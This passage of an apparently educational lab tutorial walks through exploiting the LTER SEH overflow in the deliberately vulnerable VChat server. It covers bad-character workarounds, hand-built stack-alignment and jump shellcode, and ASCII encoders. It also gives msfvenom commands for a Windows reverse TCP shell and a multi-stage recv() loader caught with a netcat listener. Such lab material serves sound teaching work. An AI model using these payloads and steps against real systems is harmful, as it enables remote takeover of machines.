			* This is possible due to the way the [boolean `AND`](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/operators/boolean-logical-operators) operation works, each bit is compared 
				| Bit X | Bit Y | Result of X & Y |
				| ----- | ----- | --------------- |
				|   0   |   0   |       0         |
				|   0   |   1   |       0         |
				|   1   |   0   |       0         |
				|   1   |   1   |       1         |

		
		3. Now using Immunity Debugger we can generate the assembly instructions we need to embed in our shellcode!

			1. We can generate assembly by right clicking the instruction view window at the location we would like to modify the program and selecting assemble 

				

			2. We then enter in the instruction we would like to assemble 

				

			3. Repeat this for the other `AND` instruction 

				
		
		4. We can modify the exploit program to reflect [exploit8.py](./SourceCode/exploit8.py) and test the program as we have done previously.

			https://github.com/DaintyJet/VChat_LTER/assets/60448620/e49eb041-2a0c-42b8-9346-4e9718ff7dae

			1. Click on the black button highlighted below, enter in the address we decided in the previous step

				

			2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`

				

			3. Run [exploit8.py](./SourceCode/exploit8.py), and pass the exception to the VChat program

				

	4. Now we will add instructions to create the short 127 byte jump in the EAX register we have zeroed out and then push it onto the stack (Which we are executing on!). This is done since it is easier to producer 2-byte instruction through addition as with the short jump rather than a 5-byte long jump.

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/88121655-dcd7-41bb-9054-bb57a135722b

		1. At first thought it may seem like we can use two ADD instructions on the lower 16 bits of the register, however when we generate the assembly for this we get instructions that contain bad characters! Again we have a register identifier C0!
			```
			ADD AX,0x75C0 (0x6605C075) 
			ADD AX,0x75C0 (0x6605C075) 
			```
		2. Attempting to use the entire 32-bit register appears to bypass the bad character restriction! However, since the short jump instruction is only 16-bits, and the registers operate on 32-bits we will need to append some `NOP` (0x90) instructions to the short jump before we find the two values we need to reconstruct it.
			* On first glance we would think that our initial value should be `0xEB809090` however since the x86 architecture is [*little endian*](https://www.ibm.com/support/pages/just-faqs-about-little-endian) we actually reverse this value to get our original number `0x909080EB`

			* With out original value of `0x909080EB` we can simply divide by 2 and get that `0x48484075 + 0x48484076` is our decomposition
			```
			ADD EAX,0x48484075 (0x0575404848)
			ADD EAX,0x48484076 (0x0576404848)
			```
		3. In order for us to use this instruction we created in the `EAX` register we will need to place it somewhere in memory. It just so happens we are executing on the stack, where we can `PUSH` the new instruction!
			```
			PUSH EAX
			```
		4. Now using Immunity Debugger we can generate the assembly instructions we need to embed in our shellcode!

			1. We can generate assembly by right clicking the instruction view window at the location we would like to modify the program and selecting assemble 

				

			2. We then enter in the instruction we would like to assemble 

				

			3. Repeat this for the other `ADD` instruction 

				

			4. Repeat this for the `PUSH` instruction 

				

		5. We can modify the exploit program to reflect [exploit9.py](./SourceCode/exploit9.py) and test the program as we have done previously.

			https://github.com/DaintyJet/VChat_LTER/assets/60448620/3f147346-e329-45a7-9913-0cc559681e13

			1. Click on the black button highlighted below, enter in the address we decided in the previous step

				

			2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`

				

			3. Run [exploit9.py](./SourceCode/exploit9.py), and pass the exception to the VChat program

				

5. After this jump in this instance we arrived at the address `0x010BFF7D` and our two short conditional jumps are at the address `0x010BFFCC`. This means we have 78 bytes of space to work with! We now need to preform a long jump near to the start of the buffer!
	1. Now in my case the near-start of the buffer address I have chosen to jump to is `0x010BF223`.  We can determine the machine instructions used to achieve this by assembling it as shown below. (Scroll to the start of the buffer where the first `A` is to get a address)

		

	2. The encoder that we generate may preform operations on the stack so we want to really make sure this will not corrupt our shell code and if we generate an instruction to later place it on the stack using a `PUSH EAX` instruction we need to make sure the location we write this to is accessible to our shell code. So we can simply realign the `ESP` value similar to how we did this in [exploit7b.py](./SourceCode/exploit7b.py). We modify it so the ESP is subtracted from, putting it in a better position.

	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack 
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	SUB AX,0x30        ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x30
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	``` 

	* This results in the code shown in [exploit10.py](./SourceCode/exploit10.py)
		```
		b'A' * (3506 - 79) +
		# Align stack for long jump
		b'\x54' +           # PUSH ESP
		b'\x58' +           # POP EAX
		b'\x2c\x30' +       # SUB AL,30
		b'\x50' +           # PUSH EAX
		b'\x5c' +           # POP ESP
		b'A' * (79 - 6) +   # Fill the rest of our buffer with A
		```
		* `b'A' * (3506 - 79)` We place the first series of `A`s so that out stack realignment is placed where the 127-byte short jump lands
		* We inject the necessary instructions for the stack realignment
		* `b'A' * (79 - 6)`: We place additional A's so the short conditional jumps are placed where the SEH handler jumps to.
	5. We can modify the exploit program to reflect [exploit9.py](./SourceCode/exploit9.py) and test the program as we have done previously.

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/d14cb21b-3068-4f66-ab22-53cd62c0e7c0

		1. Click on the black button highlighted below, enter in the address we decided in the previous step

			

		2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`

			

		3. Run [exploit10.py](./SourceCode/exploit10.py), and pass the exception to the VChat program

			

6. Now we can use a pre-made encoder to generate the shellcode we will use to preform the long jump. The author of the blog this is based on used their own modification of a encoder known as [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder). We can try and use the more well known [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) encoders first!     
	1. Using the [exploit10.py](./SourceCode/exploit10.py) and the Immunity Debugger's assembler I generated the machine code for the long jump operation `E956F2FFFF`, although you should not jump to the very start of your buffer, I was able to get it to work when doing this, otherwise the jump instructions were off in my case.
		
		

	2. Generate the machine code (byte) file 
		```
		python -c "buff= b'\xe9\x56\xf2\xff\xff'; fd = open('jmp_e10.bin', 'wb'); fd.write(buff)"
		```
	3. Generate the shellcode with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) using the [`x86/xor_poly`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) encoder.

		```
		cat jmp_e10.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub  -f python -v SHELL -b '\x00x\0a\x0d\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
		```
		* Surprise! So far those that I have tried do not work due to the restrictive character set or length of the encoded string! We can generate encoded shellcode using these but not with the restrictive character set for those I have tried.
	4. Download the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder), enter into it's directory, and install `z3-solver`.
		```
		$ git clone https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder.git && cd Automatic-ASCII-Shellcode-Subtraction-Encoder && pip install z3-solver
		```
	5. Run the following command to generate the encoded long jump shellcode 
		```
		python3 encoder.py -m -p -s 'E956F2FFFF ' -v JUMP_ENCODE
		```
		* `python3 encoder.py`: Run the `encoder.py` with the python3 interpreter
		* `-m`: Generates shellcode in the format expected by python `\x00 - \xff`
		* `-p`: Pad shellcode so it is a multiple of 4
		* `-s <Shellcode>`: Shellcode to encode as we added the `-p` flag this can be of any length 
		* `-v`: Name of variable for output 
	6. Add the Encoded Long Jump shellcode to the exploit as shown in [exploit11.py](./SourceCode/exploit11.py), and test it!
		Working

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/47b5df9a-6c07-4cd0-9314-42cb6e135360

		1. Click on the black button highlighted below, enter in the address we decided in the previous step

			

		2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`

			

		3. Run [exploit11.py](./SourceCode/exploit11.py), and pass the exception to the VChat program

			

Now that we have all the necessary parts for the creation of a exploit.
### Exploitation
There are number of possible ways we can exploit VChat with `LTER` now that we have jumped to the start of the buffer we control. The original [Blog](https://fluidattacks.com/blog/vulnserver-lter-seh/) injects the custom shellcode used in [KSTET_Multi](https://github.com/DaintyJet/VChat_KSTET_Multi). This is discussed in the section [Multi-Stage](#multi-stage); However, this does not appear to work reliably in the VChat server with the `LTER` exploit. So we also modified the exploit code to inject a [Encoded-MSF-Exploit](#encoded-msf-exploit), this should be the preferred method when exploiting VChat.   


#### Encoded-MSF-Exploit
With this exploit we will use the well known [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) program to generate an encoded payload within the allowed bounds. 

1. As we have done before we need to realign the stack pointer stored in the `ESP` register. This is because the encoder we will later will need to know where in memeory it is located. The option will require a register pointing to the start of our encoded shellcode, we do this as without this option the exploit contains non-alphanumeric characters.    

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/239f12cd-243a-4b50-9cdb-47980585e10d
	
	1. We can get an idea of what operation, and the constant we should use by looking at the `ESP` value, and where we jump to on the stack.

		

		* Here my `ESP` register holds the value `0x013CFFC3` and the address we jump to is `0x013CF21E`, this gives us a difference of `0x0DA5` or 3,493 bytes! We know that we will need to move the `ESP` down close to `0x0DA5` bytes, we will of course need to decrease this offset to account for any padding (16 bytes) we add, and the set of instructions we use to update the ESP register.

	2. We will use the machine code that results from the following x86 assembly instructions. We can generate them in Immunity Debugger as we have done previously, or with the `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` program on the Kali Linux machine.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack 
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0DA5      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0DA5
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		``` 

		

		* Notice that  in the subtraction instruction `\x66\x2d\xa5\x0d` we have an invalid character `a5`! This means we need to modify the program to preform two or more subtractions! Since we are not too concerned with the space this takes, I modified the shellcode to preform 4 subtractions.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack 
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		``` 

		

	3. Now we know that we have a padding of 16-bytes, and our newly added shellcode will take 20-bytes; so we can modify it to account for this placing the stack pointer (`ESP`) at the head of our shellcode
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack 
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0346      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0344 to account for our 16-bytes of padding, and this shellcode
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register	
		```
		* We modify the final subtraction to reflect the padding, and this shellcode

		 


	4. Edit your exploit to reflect [exploit12a-MSF.py](./SourceCode/exploit12a-MSF.py), and test to insure it works!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/935dce37-47b6-4712-afe6-af977a90faea


		1. Click on the black button highlighted below, enter in the address we decided in the previous step

			

		2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`

			

		3. Run [exploit12a-MSF.py](./SourceCode/exploit12a-MSF.py), and pass the exception to the VChat program

			

2. Now we need to generate the encoded shellcode we will inject into the buffer, as stated before we will be using the [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) program. 


	https://github.com/DaintyJet/VChat_LTER/assets/60448620/893c3b13-d436-4827-afb3-4802ea867a3e


	1. We can first try generating a payload as we have done before (without an Encoder)

		```
		msfvenom -p windows/shell_reverse_tcp LPORT=8080 LHOST=10.0.2.15 -a x86 --platform windows -f python -b '\x00x\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
		```
		*  `msfvenom`: The MSFVenom command
			* `-p  windows/shell_reverse_tcp`: Specify the payload as the windows reverse tcp shell
			* Set the `LPORT` option to 8080 (or any other valid port)
			* Set the `LHOST` option to the IP of your remote host
		* `-a x86`: Specify the target architecture as `x86`
		* `--platform windows`: Specify the target platform as Windows
		* `-f python`: Format the output for use in a python script
		* `-b ...`: Specify the bad chars.

		

		* Notice that none of the encoders that *msfvenom* tried automatically worked, we can try again but we can specify which encoder should be used for better results!

	2. Now we can specify an encoder such as [x86/alpha_mixed](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/alpha_mixed), and we can use the available options to specify the register pointing to the buffer we will use as the `esp` register!

		```
		msfvenom -p windows/shell_reverse_tcp LPORT=8080 LHOST=10.0.2.15 -a x86 --platform windows -f python -e x86/alpha_mixed bufferregister=esp -b '\x00x\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
		```
		*  `msfvenom`: The MSFVenom command
		* `-p  windows/shell_reverse_tcp`: Specify the payload as the windows reverse tcp shell
			* Set the `LPORT` option to 8080 (or any other valid port)
			* Set the `LHOST` option to the IP of your remote host
		* `-a x86`: Specify the target architecture as `x86`
		* `--platform windows`: Specify the target platform as Windows
		* `-f python`: Format the output for use in a python script
		* `-e x86/alpha_mixed bufferregister=esp`: Specify the encoder we will use as -e `x86/alpha_mixed` with the `bufferregister` option set to use the `ESP` register.
		* `-b ...`: Specify the bad chars.

		

		* We can see this is quite a large exploit! Luckily we have the space in our buffer for this even with the pre-existing jumps!
	3. If you would like to try other encoders and see their options you will firs need to look at them within the [msfconsole](https://docs.rapid7.com/metasploit/msf-overview/)

		1. Open the [msfconsole](https://docs.rapid7.com/metasploit/msf-overview/)

			
		
		2. Search for x86 encoders

			

		3. Select an encoder, we can do this with `use encoder/x86/<NAME>` or if we have done a search `use <index>` where index relates to the number next to the encoder in the search.

			

		4. Once selected, we can show the options 

			

			* Generally these options will be reflected in the command line as all lowercase in the form `-e <encoder> <option>=<value>` as can be seen in `-e x86/alpha_mixed bufferregister=esp`
		5. You can exit the *msfconsole* using the keyword `exit` 
3. Now that we have the shellcode, we can insert it into the exploit as is show in in [exploit12b-MSF.py](./SourceCode/exploit12b-MSF.py)

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/d6b916f2-cc82-47fb-aabd-e5119b1c7a69


	1. Click on the black button highlighted below, enter in the address we decided in the previous step

		

	2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`

		

	3. Run [exploit12a-MSF.py](./SourceCode/exploit12a-MSF.py), and pass the exception to the VChat program

		

4. Now we can start the [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080 and then run [exploit12b-MSF.py](./SourceCode/exploit6.py)

	```
	$ nc -l -v -p 8080
	```
	* `nc`: The netcat command
	* `-l`: Set netcat to listen for connections 
	* `v`: Verbose output 
	* `p`: Set to listen on a port, in this case port 8080.

https://zflemingg1.gitbook.io/undergrad-tutorials/walkthroughs-osce/vulnserver-lter-command
#### Multi Stage
We will preform a similar exploit to one done for the [KSTET_Multi](https://github.com/DaintyJet/VChat_KSTET_Multi) exploit, as we will first inject encoded shellcode to receive the second stage shellcode, writing it to the stack, and then entering the newly written second stage. This is done so we only have to create the smaller first stage in compliance with the allowed characters. We do this since it is much easier to create the smaller first stage within the restricted character set than it is for us to generate the more complicated metasploit payloads in a format that preserves their functionality. By instead using the first stage to receive the more complicated shellcode and directly write it to the stack we do not need to be worried about how the original programs' logic changes the data we send, as we have bypassed it with the first stage.

1. As we have done before we need to realign the stack pointer stored in the `ESP` register, since we have jumped to the start of the buffer there are a few thousand `A`s between us and the top of the stack. Additionally if we do not move the stack pointer as the last instruction used by the decoder in the shellcode is `PUSH EAX`, the second stage shellcode is written to the stack following the `JMP <Head>` so we would never reach it!  

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/544540f9-6d4d-4262-b099-d987a5b86625
	
	1. We can get an idea of what operation, and the constant we should use by looking at the `ESP` value, and where we jump to on the stack.

		

		* Here my `ESP` register holds the value `0x013CFFC3` and the address we jump to is `0x013CF21E`, this gives us a difference of `0x0DA5` or 3,493 bytes! As our stack grows down, to prevent the multiple calls to the `recv(...)` function from mangling our shellcode, we would like to align our stack to be "Behind" or point to an address lower than the location we write out shellcode. However, we **also** want the decoded shellcode to be written to an address that we can fall into without a jump, so I chose to use the offset  `0x09A5` so we write to an address we will execute without preforming a jump, and leave the additional stack manipulation needed to prevent the corruption of our shellcode to the shellcode itself.

	2. We will use the machine code that results from the following x86 assembly instructions. We can generate them in Immunity Debugger as we have done previously, or with the `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` program on the Kali Linux machine.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack 
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0DA8      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0DA5
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		``` 

		

		* Notice that  in the subtraction instruction `\x66\x2d\xa8\x0d` we have an invalid character `a8`! This means we need to modify the program to preform two or more subtractions! Since we are not too concerned with the space this takes, I modified the shellcode to preform 4 subtractions.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack 
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		``` 
	3. Edit your exploit to reflect [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and test to insure it works!
 
		https://github.com/DaintyJet/VChat_LTER/assets/60448620/507e8fe0-f90a-4ae2-80cb-7fe00fc86efe

		1. Click on the black button highlighted below, enter in the address we decided in the previous step

			

		2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`

			

		3. Run [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and pass the exception to the VChat program

			

2. Now we can create the first stage shellcode that we will inject into the VChat server, the source assembly is contained in [shellcode.asm](./SourceCode/shellcode.asm) and is discussed with more detail in the [KSTET_Multi](https://github.com/DaintyJet/VChat_KSTET_Multi) exploit. In this case the address of `recv(...)` (`0x776A23A0`) contained a bad character `0xA0`, so the assembly was modified to handle this.

	```
	sub esp,0x02            ; Move ESP pointer above our initial buffer to avoid
							; overwriting our shellcode
	xor edi,edi             ; Zero out EDI (Anything XORed with itself is 0)
	socket_loop:            ; Brute Force Loop Label
	xor ebx,ebx             ; Zero out EBX (Anything XORed with itself is 0)
	push ebx                ; Push 'flags' parameter = 0 
	add bh,0x4              ; Make EBX = 0x00000400 which is  1024 bytes
	push ebx                ; Push `len` parameter, this is 1024 bytes
	mov ebx,esp             ; Move the current pointer of ESP into EBX
	add ebx,0x64            ; Point EBX the original ESP to make it the pointer to
							; where our stage-2 payload will be received (And fallen into)
	push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
	inc edi                 ; Make EDI = EDI + 1
	push edi                ; Push socket handle `s` parameter = EDI, For each loop we increment EDI
	mov eax,0x776A23A0      ; We need to make EAX = 0x776A23A0 but we can't inject if there are null bytes in this.
	call eax                ; Call recv()
	test eax,eax            ; Check if our recv() call was successfully made
	jnz socket_loop         ; If recv() failed, jump back to the socket loop where
							; EDI will be increased to check the next socket handle
	```	
	* For the initial instruction, you only need to subtract from the stack pointer by 1-2 bytes since our current `ESP` value will point to the first instruction/ Later we still want to preform the large addition (in this case a value of `0x64`) so that out second stage will be written ahead of our first stage shellcode.
	* Keep in mind you may need to adjust the address used in the `mov eax,0x74F123A0` instruction: Below is an example of (later) using arwin to find the address of the recv function 

		

3. Now we need to assemble the assembly into machine code and then extract the machine instructions so we can encode them.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/5535983c-3398-4f38-b8e4-b440e4104aab

	1. Ensure nasm is installed, if not you will need to [install it](https://nasm.us/) and add it to the path.

		

	2. Run nasm on the target assembly, Run: `nasm -f elf32 -o shellcode.o shellcode.asm`
		* `nasm`: Netwide Assembler, assembles assembly into x86 machine code.
		* `-f elf32`: elf32 format
		* `-o shellcode.o`: Shellcode File
		* `shellcode.asm`: input file
	3. Extract the binary with a simple [shell script](./SourceCode/extract.sh).
		```sh
		for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do 
			echo -n '\x'$i; 
		done; 
		echo
		```
		* `for i in`: For each value `$i` generated by the following command 
		* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode
			* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format
			* `grep "^ "`: Extract only those lines containing assembly
			* `cut -f2`: Extract the second field, this contains the hex representation of the instructions
		* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`
		* `echo`: Print an extra line
		* **Note**: If you create this file be sure to make it executable `chmod +x extract.sh`, then you can run it using the command `./extract.sh`

		

	4. Use the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder) to encode our first stage shellcode.

		```
		python3 encoder.py -m -p -s '\x83\xec\x02\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47\x57\xb8\xa0\x23\x6a\x77\xff\xd0\x85\xc0\x75\xe6' -v FIRST_STAGE
		```
		* `python3 encoder.py`: Run the `encoder.py` with the python3 interpreter
		* `-m`: Generates shellcode in the format expected by python `\x00 - \xff`
		* `-p`: Pad shellcode so it is a multiple of 4
		* `-s <Shellcode>`: Shellcode to encode as we added the `-p` flag this can be of any length 
		* `-v`: Name of variable for output 
	
	5. Modify your exploit to reflect [exploit12b-MULT.py](./SourceCode/exploit12b-MULT.py), then test it!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/ed4fc693-7510-409b-beb0-83b3c6123ed4

		1. Click on the black button highlighted below, enter in the address we decided in the previous step

			

		2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`

			

		3. Run [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and pass the exception to the VChat program

			

4.  Generate the second stage reverse shell code using ```msfvenom``` program, and create a exploit as shown in [exploit12c-MULT.py](./SourceCode/exploit12c-MULT.py) 
	```
	$ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00x\0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for windows
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP 10.0.2.7
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080
    	* `EXITFUNC=thread`: Create a thread to run the payload
  	* `-f`: The output format 
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name
    	* `SHELL`: Shell Variable name
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values 
      	* `\x00x\0a\x0d`: Null char, carriage return, and newline. 

*Note*: Be sure to run the [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080 while running [exploit12c-MULT.py](./SourceCode/exploit6.py)

```
$ nc -l -v -p 8080
```
* `nc`: The netcat command
* `-l`: Set netcat to listen for connections 
* `v`: Verbose output 
* `p`: Set to listen on a port, in this case port 8080.


### VChat Code

As with the previous exploits the VChat code is relatively simple in nature. Once a connection is received on port 9999, a thread is created running the  `DWORD WINAPI ConnectionHandler(LPVOID cli)` function, where `LPVOID cli` is a void pointer that holds the address of a `client_t` structure; this is a custom structure that contains the necessary connection information.  


Below is the code segment that handles the `LTER` message type. 
```c
else if (strncmp(RecvBuf, "LTER ", 5) == 0) {
				char* LterBuf = malloc(DEFAULT_BUFLEN);
				memset(LterBuf, 0, DEFAULT_BUFLEN);
				i = 0;
				while (RecvBuf[i]) {
					if ((byte)RecvBuf[i] > 0x7f) {
						LterBuf[i] = (byte)RecvBuf[i] - 0x7f;
					}
					else {
						LterBuf[i] = RecvBuf[i];
					}
					i++;
				}
				for (i = 5; i < DEFAULT_BUFLEN; i++) {
					if ((char)LterBuf[i] == '.') {
						Function3(LterBuf);
						break;
					}
				}
				memset(LterBuf, 0, DEFAULT_BUFLEN);
				SendResult = send(Client, "LTER COMPLETE\n", 14, 0);
}
```
The buffer we copy to `LterBuf` can hold all of the bytes that we successfully transmit (4096 bytes), this is initially zeroed out using the call `memset(LterBuf, 0, DEFAULT_BUFLEN);`. Then for each non-zero character `while (RecvBuf[i])` we copy the byte over.

If the byte has a value less than `0x7f` it's value is preserved, otherwise it's value is over `0x7f` and the resulting value we save is `0x7f` less than what was intended.

If the first 5 characters of the string contain a period `.` then we enter into `Function3(char* Input)`
```c
void Function3(char* Input) {
	char Buffer2S[2000];
	strcpy(Buffer2S, Input);
}
```
As in previous exploits `Function3(char* Input)` preforms a copy into a buffer that can hold 2000 bytes from one that may hold 4096 bytes, leading to an overflow. 
<!-- ----
The manual encoding section described in the original [Blog](https://fluidattacks.com/blog/vulnserver-lter-seh/) cannot be applied to this case directly. In the original blog, the procedure used by the author for moving the ESP to the end of the C buffer can be described as:

1. First push the current ESP value to the stack (PUSH ESP)
2. Pop the ESP value to EAX (POP EAX)
3. Add offset value (0x1453) to EAX so that EAX will point to the end of the C buffer (ADD AX, 0x1453) 
4. Push EAX to the stack (PUSH EAX)
5. Pop the EAX value to ESP (POP ESP)

The assembly code in the original blog (shown as below) does not contain any bad character, and can therefore be used directly.
```
# Align stack pointer
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x05\x53\x14' +   # ADD AX,0x1453
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
```
---
However in my case, the offset from the current ESP to the end of the C buffer is 0x13D3. So I use the same way to make ESP point to the buffer end and generate the following code: 
```
# Align stack pointer
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x05\xD3\x13' +   # ADD AX,0x13D3
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
```

